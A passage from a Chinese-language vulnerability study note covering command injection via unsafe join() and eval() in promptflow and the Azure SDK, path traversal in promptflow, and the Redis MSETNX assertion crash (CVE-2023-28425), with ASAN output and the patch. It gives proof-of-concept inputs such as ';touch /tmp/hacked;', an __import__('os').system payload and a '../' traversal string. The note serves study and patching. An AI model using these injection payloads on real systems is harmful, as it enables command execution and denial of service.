        return torch.zeros(0)
    def forward(self):
        self.items()
        return torch.zeros(0) 

model = SimpleModel()
modelscript = torch.jit.script(model)
modelscript.save("evil.bin")
```

### 八、非法注入

#### 1.不安全的join()

引用：Vulnerable Tooling Suites[^2]
漏洞类型：命令注入
针对的目标：存在漏洞的 python 业务代码
学习目的：漏洞可能存在于ROSA的MLOps，AgentOps。学习漏洞的触发逻辑，补丁。

promptflow存在命令注入：
https://github.com/microsoft/promptflow/blob/718a2c0b632cd93b9f338f635db1a09bf3c02179/src/promptflow-devkit/promptflow/_sdk/_orchestrator/utils.py#L525

```python
# region start experiment utils
def _start_process_in_background(args, executable_path=None):
    if platform.system() == "Windows":
        os.spawnve(os.P_DETACH, executable_path, args, os.environ)
    else:
        subprocess.Popen(" ".join(["nohup"] + args + ["&"]), shell=True, env=os.environ)
```
不安全的join()引发的命令注入，触发链source 到 sink如下：

（source）args = args + ...
（sink）subprocess.Popen(" ".join(["nohup"] + args + ["&"]), shell=True, env=os.environ)

poc：
join()拼接 ';touch /tmp/hacked;'

#### 2.不安全的eval()

引用：Vulnerable Tooling Suites[^2]
漏洞类型：命令注入
针对的目标：存在漏洞的 python 业务代码
学习目的：漏洞可能存在于ROSA的MLOps，AgentOps。学习漏洞的触发逻辑，补丁。

azure存在命令注入：
https://github.com/Azure/azure-sdk-for-python/blob/ccaf592492ad7e5973b32f348f7a2c2a4a962a05/sdk/ai/azure-ai-generative/azure/ai/generative/synthetic/simulator/_model_tools/models.py#L275
```python
        # Default stop to end token if not provided
        if not stop:
            stop = []
        # Else if stop sequence is given as a string (Ex: "["\n", "<im_end>"]"), convert
        elif type(stop) is str and stop.startswith("[") and stop.endswith("]"):
            stop = eval(stop)
        elif type(stop) is str:
            stop = [stop]
        self.stop: List = stop  # type: ignore[assignment]
```
没有使用安全的literal_eval()

poc：
构造stop为 ["\__import__('os').system('touch /tmp/hacked')"]

总结：
eval,subprocess等危险函数很常见，难点在于寻找攻击场景，构造完整的 poc。

### 九、文件操作

#### 1.不安全的Path()导致路径穿越

引用：Vulnerable Tooling Suites[^2]
漏洞类型：路径穿越
针对的目标：存在漏洞的 python 业务代码
学习目的：漏洞可能存在于ROSA的MLOps，AgentOps。学习漏洞的触发逻辑，补丁。

promptflow存在路径穿越：
https://github.com/microsoft/promptflow/blob/718a2c0b632cd93b9f338f635db1a09bf3c02179/src/promptflow-devkit/promptflow/_sdk/_service/apis/ui.py#L74
```python
def save_image(directory, base64_data, extension):
    image_data = base64.b64decode(base64_data)
    hash_object = hashlib.sha256(image_data)
    filename = hash_object.hexdigest()
    file_path = Path(directory) / f"{filename}.{extension}"
    with open(file_path, "wb") as f:
        f.write(image_data)
    return file_path
```
没有使用安全的safe_join()，而是使用Path()，触发链source 到 sink如下：

（source）extension = args.extension
（sink）file_path = Path(directory) / f"{filename}.{extension}"

poc：
f"{filename}.{extension}"中有一个'.'，因此构造extension为 '/../../../Windows/System32'

## Top K 逻辑漏洞

### 八、断言错误

#### 1.Redis MSETNX命令断言错误

MSETNX常用来设置，表示唯一逻辑对象的不同字段的不同键，以确保设置所有字段或根本不设置字段。

``` shell
MSETNX key value [key value ...]
```

即使只存在一个键，MSETNX也不会执行任何操作。仅当所有键均不存在时，设置全部的键。

CVE-2023-28425[^]的PoC：
多次设置一个相同的键名时，触发断言错误，导致**服务端DoS**：

``` shell
MSETNX key 1 key 2
```

查看ASAN，发现断言错误发生在src/db.c:191，函数dbAdd中。

``` shell
==8739==ERROR: AddressSanitizer: unknown-crash on address 0x0000800f7000 at pc 0x7fbe6c2f0956 bp 0x7ffe393edda0 sp 0x7ffe393ed560
READ of size 1048576 at 0x0000800f7000 thread T0
#0 0x7fbe6c2f0955 in memcpy ../../../../src/libsanitizer/sanitizer_common/sanitizer_common_interceptors_memintrinsics.inc:115
#1 0x56026be851ce in memtest_preserving_test /opt/redis-7.0.8/src/memtest.c:317
#2 0x56026be3f37d in memtest_test_linux_anonymous_maps /opt/redis-7.0.8/src/debug.c:1863
#3 0x56026be3f647 in doFastMemoryTest /opt/redis-7.0.8/src/debug.c:1904
#4 0x56026be403ad in printCrashReport /opt/redis-7.0.8/src/debug.c:2047
#5 0x56026be3cd01 in _serverAssert /opt/redis-7.0.8/src/debug.c:1015
#6 0x56026be3d811 in _serverAssertWithInfo /opt/redis-7.0.8/src/debug.c:1092
#7 0x56026bd893a6 in dbAdd /opt/redis-7.0.8/src/db.c:191
#8 0x56026bd8a108 in setKey /opt/redis-7.0.8/src/db.c:270
#9 0x56026bdccd5e in msetGenericCommand /opt/redis-7.0.8/src/t_string.c:585
#10 0x56026bdccf78 in msetnxCommand /opt/redis-7.0.8/src/t_string.c:597
#11 0x56026bd27805 in call /opt/redis-7.0.8/src/server.c:3374
#12 0x56026bd2b481 in processCommand /opt/redis-7.0.8/src/server.c:4008
```

断言错误发生在src/db.c:191，函数dbAdd中，表示在向Redis添加键时，发现键已经存在了。这说明在添加键之前，存在逻辑错误，未正确判断键是否存在。

``` c
/* Add the key to the DB. It's up to the caller to increment the reference
 * counter of the value if needed.
 *
 * The program is aborted if the key already exists. */
void dbAdd(redisDb *db, robj *key, robj *val) {
    sds copy = sdsdup(key->ptr);
    dictEntry *de = dictAddRaw(db->dict, copy, NULL);

👉  serverAssertWithInfo(NULL, key, de != NULL);

    dictSetVal(db->dict, de, val);
    signalKeyAsReady(db, key, val->type);
    if (server.cluster_enabled) slotToKeyAddEntry(de, db);
    notifyKeyspaceEvent(NOTIFY_NEW,"new",key,db->id);
}
```

MSETNX核心逻辑在函数msetGenericCommand中，调用时参数nx置1。逻辑错误在于，nx置1时，只检验了所有键是否存在于Redis，然后便设置所有键的flag为`SETKEY_DOESNT_EXIST`。当存在多个名字相同的键（比如多个key）时，同样通过校验，但是第一次创建key后，下一个key的flag还是`SETKEY_DOESNT_EXIST`，导致dbAdd中的断言错误。

``` c
void msetGenericCommand(client *c, int nx) {
    int j;
    int setkey_flags = 0;
    ...
    /* Handle the NX flag. The MSETNX semantic is to return zero and don't
     * set anything if at least one key already exists. */
    if (nx) {
        for (j = 1; j < c->argc; j += 2) {
            // 检验所有键是否存在于Redis
👉           if (lookupKeyWrite(c->db,c->argv[j]) != NULL) {
                addReply(c, shared.czero);
                return;
            }
        }
        setkey_flags |= SETKEY_DOESNT_EXIST;
    }

    for (j = 1; j < c->argc; j += 2) {
        c->argv[j+1] = tryObjectEncoding(c->argv[j+1]);
        setKey(c, c->db, c->argv[j], c->argv[j + 1], setkey_flags);
        notifyKeyspaceEvent(NOTIFY_STRING,"set",c->argv[j],c->db->id);
    }
    ...
}
```

补丁：
补丁之后，函数只校验所有键是否存在于Redis，未设置所有键的flag，把判断重复键的工作交给dbAdd。

```c 
void msetGenericCommand(client *c, int nx) {
    int j;
-   int setkey_flags = 0;
    ...
    /* Handle the NX flag. The MSETNX semantic is to return zero and don't
     * set anything if at least one key already exists. */
    if (nx) {
        for (j = 1; j < c->argc; j += 2) {
            // 检验所有键是否存在于Redis
            if (lookupKeyWrite(c->db,c->argv[j]) != NULL) {
                addReply(c, shared.czero);
                return;
            }
        }
-       setkey_flags |= SETKEY_DOESNT_EXIST;
    }

    for (j = 1; j < c->argc; j += 2) {
        c->argv[j+1] = tryObjectEncoding(c->argv[j+1]);
-       setKey(c, c->db, c->argv[j], c->argv[j + 1], setkey_flags);
+       setKey(c, c->db, c->argv[j], c->argv[j + 1], 0);
        notifyKeyspaceEvent(NOTIFY_STRING,"set",c->argv[j],c->db->id);
    }
    ...
}
```

[^1]: Hugging Worms https://blackhat.com/asia-24/briefings/schedule/#how-to-make-hugging-face-to-hug-worms-discovering-and-exploiting-unsafe-pickleloads-over-pre-trained-large-model-hubs-36261
[^2]: Vulnerable Tooling Suites https://blackhat.com/asia-25/briefings/schedule/#the-oversights-under-the-flow-discovering-and-demystifying-the-vulnerable-tooling-suites-from-azure-mlops-43347
[^3]: Safe Harbor or Hostile Waters https://blackhat.com/us-25/briefings/schedule/#safe-harbor-or-hostile-waters-unveiling-the-hidden-perils-of-the-torchscript-engine-in-pytorch-pre-recorded-44682